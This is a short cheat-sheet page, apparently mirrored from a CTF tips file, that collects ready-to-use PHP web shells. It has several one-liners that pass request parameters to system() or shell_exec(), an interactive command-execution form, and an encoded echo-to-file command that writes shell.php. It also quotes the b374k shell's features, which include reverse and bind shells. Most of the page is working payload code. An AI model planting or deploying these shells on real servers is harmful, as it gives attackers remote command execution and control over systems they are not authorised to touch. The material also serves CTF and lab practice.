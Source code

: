# Web Shells

#### Mirror ChrisPritchard/ctf-writeups/master/TIPS-AND-TRICKS.md

This is a mirror of [GitHub ChrisPritchard/ctf-writeups - TIPS-AND-TRICKS.md](https://github.com/ChrisPritchard/ctf-writeups/blob/master/TIPS-AND-TRICKS.md); the source I found that is very concise and simple. 

PHP one liner:
`<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>`

Tighter: 
`<?php echo shell_exec($_GET['e'].' 2>&1'); ?>`

No quotes:
`<?php system($_GET[1]); ?>`
PHP interactive shell:

```php
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
<script>document.getElementById("cmd").focus();</script>
```

shell above emitted to a file via base64:
```bash
echo %50%47%5a%76%63%6d%30%67%62%57%56%30%61%47%39%6b%50%53%4a%48%52%56%51%69%49%47%35%68%62%57%55%39%49%6a%77%2f%63%47%68%77%49%47%56%6a%61%47%38%67%59%6d%46%7a%5a%57%35%68%62%57%55%6f%4a%46%39%54%52%56%4a%57%52%56%4a%62%4a%31%42%49%55%46%39%54%52%55%78%47%4a%31%30%70%4f%79%41%2f%50%69%49%2b%43%6a%78%70%62%6e%42%31%64%43%42%30%65%58%42%6c%50%53%4a%55%52%56%68%55%49%69%42%75%59%57%31%6c%50%53%4a%6a%62%57%51%69%49%47%6c%6b%50%53%4a%6a%62%57%51%69%49%48%4e%70%65%6d%55%39%49%6a%67%77%49%6a%34%4b%50%47%6c%75%63%48%56%30%49%48%52%35%63%47%55%39%49%6c%4e%56%51%6b%31%4a%56%43%49%67%64%6d%46%73%64%57%55%39%49%6b%56%34%5a%57%4e%31%64%47%55%69%50%67%6f%38%4c%32%5a%76%63%6d%30%2b%43%6a%78%77%63%6d%55%2b%43%6a%77%2f%63%47%68%77%43%69%41%67%49%43%42%70%5a%69%68%70%63%33%4e%6c%64%43%67%6b%58%30%64%46%56%46%73%6e%59%32%31%6b%4a%31%30%70%4b%51%6f%67%49%43%41%67%65%77%6f%67%49%43%41%67%49%43%41%67%49%48%4e%35%63%33%52%6c%62%53%67%6b%58%30%64%46%56%46%73%6e%59%32%31%6b%4a%31%30%70%4f%77%6f%67%49%43%41%67%66%51%6f%2f%50%67%6f%38%4c%33%42%79%5a%54%34%4b%50%48%4e%6a%63%6d%6c%77%64%44%35%6b%62%32%4e%31%62%57%56%75%64%43%35%6e%5a%58%52%46%62%47%56%74%5a%57%35%30%51%6e%6c%4a%5a%43%67%69%59%32%31%6b%49%69%6b%75%5a%6d%39%6a%64%58%4d%6f%4b%54%73%38%4c%33%4e%6a%63%6d%6c%77%64%44%34%3d | base64 -d > shell.php
```
#### b374k shell 

[b374k shell](https://github.com/b374k/b374k) *"This PHP Shell is a useful tool for system or web administrator to do remote management without using cpanel, connecting using ssh, ftp etc. All actions take place within a web browser - Features :
- File manager (view, edit, rename, delete, upload, download, archiver, etc)
- Search file, file content, folder (also using regex)
- Command execution
- Script execution (php, perl, python, ruby, java, node.js, c)
- Give you shell via bind/reverse shell connect
- Simple packet crafter
- Connect to DBMS (mysql, mssql, oracle, sqlite, postgresql, and many more using ODBC or PDO)
- SQL Explorer
- Process list/Task manager
- Send mail with attachment (you can attach local file on server)
- String conversion
- All of that only in 1 file, no installation needed
- Support PHP > 4.3.3 and PHP 5"*


## References

[b374k shell](https://github.com/b374k/b374k)
[GitHub ChrisPritchard/ctf-writeups - TIPS-AND-TRICKS.md](https://github.com/ChrisPritchard/ctf-writeups/blob/master/TIPS-AND-TRICKS.md)